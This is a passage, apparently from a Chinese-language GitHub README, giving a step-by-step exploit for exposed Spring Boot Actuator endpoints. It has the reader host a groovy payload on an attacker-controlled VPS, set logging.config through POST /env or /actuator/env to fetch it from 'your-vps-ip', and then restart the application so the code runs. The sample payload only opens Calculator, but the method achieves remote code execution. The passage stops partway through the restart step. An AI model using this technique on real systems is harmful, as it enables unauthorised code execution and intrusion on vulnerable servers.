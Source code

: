 #### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
- ⚠️ 环境中需要存在 groovy 依赖，否则会导致程序异常退出



#### 利用方法：

##### 步骤一：托管 groovy 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以 `groovy` 结尾的  `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```xml
Runtime.getRuntime().exec("open -a Calculator")

```



##### 步骤二：设置 logging.config 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.groovy
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.groovy"}
```



##### 步骤三：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```
